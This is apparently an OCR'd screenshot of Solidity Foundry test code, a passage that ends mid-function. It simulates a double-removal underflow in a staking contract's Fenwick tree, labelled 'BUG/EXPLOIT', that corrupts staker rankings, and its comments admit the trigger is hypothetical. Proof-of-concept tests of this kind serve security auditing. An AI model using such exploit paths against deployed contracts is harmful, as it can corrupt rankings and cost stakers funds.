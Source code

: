 ```solidity
        treeHelper.update(attackerJoinId, -1); // First removal (normal)
        console2.log("Tree position after first removal:", treeHelper.getData(attackerJoinId));
        
        // This is where the vulnerability lies - if somehow second removal happens
        treeHelper.update(attackerJoinId, -1); // Second removal (BUG/EXPLOIT)
        console2.log("Tree position after DOUBLE removal:", treeHelper.getData(attackerJoinId));
        console2.log("Max uint256:", type(uint256).max);
        
        // Demonstrate corrupted ranking
        uint256 corruptedRank = treeHelper.query(attackerJoinId);
        console2.log("Corrupted rank calculation:", corruptedRank);
        
        assertTrue(treeHelper.getData(attackerJoinId) == type(uint256).max, "Underflow occurred");
        assertTrue(corruptedRank > 1000, "Rank calculation corrupted");
    }
    
    function test_RealScenario_BoundaryCheckingBugSimulation() public {
        console2.log("=== Simulating boundary checking bug scenario ===");
        
        // Setup: Create scenario where boundary logic might double-process
        vm.startPrank(alice);
        token.approve(address(staking), MIN_STAKE);
        staking.stake(MIN_STAKE);
        vm.stopPrank();
        
        vm.startPrank(bob);
        token.approve(address(staking), MIN_STAKE);
        staking.stake(MIN_STAKE);
        vm.stopPrank();
        
        vm.startPrank(attacker);
        token.approve(address(staking), MIN_STAKE);
        staking.stake(MIN_STAKE);
        vm.stopPrank();
        
        // Get initial state
        uint256 initialStakerCount = staking.stakerCountInTree();
        console2.log("Initial staker count:", initialStakerCount);
        
        // Simulate what could happen if _checkBoundariesAndRecord has a bug
        // that causes it to process the same user twice during tier boundary shifts
        
        vm.warp(block.timestamp + 7 days + 1);
        
        // Normal unstake
        vm.startPrank(attacker);
        staking.unstake(MIN_STAKE / 2 + 1);
        vm.stopPrank();
        
        console2.log("After unstake - staker count:", staking.stakerCountInTree());
        
        // The vulnerability: If boundary checking logic has a race condition or bug
        // it could call tree.update(joinId, -1) again on the same position
        
        // Demonstrate the impact using helper contract
        FenwickTreeTester testTree = new FenwickTreeTester();
        
        // Setup test scenario
        testTree.update(1, 1); // Alice
        testTree.update(2, 1); // Bob  
        testTree.update(3, 1); // Attacker
        
        console2.log("Before exploit - Alice rank:", testTree.query(1));
```